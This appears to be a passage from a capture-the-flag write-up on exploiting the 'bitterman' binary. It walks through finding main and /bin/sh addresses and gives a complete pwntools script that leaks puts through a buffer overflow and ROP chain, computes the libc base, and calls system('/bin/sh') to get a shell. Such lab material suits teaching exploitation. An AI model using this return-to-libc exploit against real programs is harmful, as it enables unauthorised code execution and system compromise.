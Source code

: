 First off, we need `main` address because the leak address will be changed everytime so we need to get main address so we can use the leaked address to get the offset for current process.
Using `objdump -D bitterman | grep main`, we will grab the address of the bitteman's `main`.

```
-snip--
00000000004006ec <main>:
--snip--
```
Nice, we have the main address. Let's proceed further for crafting the exploit. 

>Warning: Before we proceeds, we need the `libc.so.6` of your machine. Copy it with `cp //lib/x86_64-linux-gnu/libc.so.6 .` , it willcopy the`libc.so.6` to the working directory.

Now, we will automate the finding of addresses of `put` and `system`  with pwntools but beforehand we need `/bin/sh` address as well. To find that, let's use strings `strings -a -t x libc.so.6 | grep /bin/sh` , we will get the address of `/bin/sh` from the `libc.so.6`.

Let's make the exploit:-


```
#!/usr/bin/python

from pwn import * # importing fuctions 
#context(terminal=['gnome-terminal','new-window']) Debug purpose
#context.log_level = 'DEBUG' # Debug purpose
p = process('./bitterman') # using bitterman elf # processing the target elf
#p = gdb.debug('./bitterman','b main') # breakpoint setup at main via gdb
libc = ELF('libc.so.6')
plt_put = p64(0x400520) # PLT put address 
got_put = p64(0x600c50) # GOT put address
pop_rdi = p64(0x400853) # pop_rdi address
plt_main = p64(0x4006ec)

padding = "A"*152 # Because we know the offset from earlier

payload = padding +  pop_rdi + got_put + plt_put + plt_main

p.recvuntil("name?") # recieve data until we recieve the string
p.sendline("robin")  # send data 
p.recvuntil("message:") # recieve data until we recieve the string
p.sendline("1024") # send data 
p.recvuntil("text:") # recieve data until we recieve the string
p.sendline(payload) # send data
p.recvuntil("Thanks!") # recieve data until we recieve the string
leaked_puts = p.recv()[:8].strip().ljust(8,"\x00") # recieving the string until we get leaked address and padding with null bytes to length of 8
log.success("Leaked puts: %s" %(leaked_puts)) # Prints the leaked addresss
leaked_puts = u64(leaked_puts) # converts to 64-bit friendly integer


offset = leaked_puts - libc.symbols['puts'] # Ths
sys = p64(offset + libc.symbols['system'])
sh = p64(offset + 0x1b3e9a)

payload = padding+ p64(0x0000000000400509) + pop_rdi + sh + sys # remove p64(0x0000000000400509) if you're not using ubuntu
p.sendline("robin")
p.recvuntil("message:")
p.sendline("1024")
p.recvuntil("text:")
p.sendline(payload)
p.recvuntil("Thanks!")


p.interactive()
```
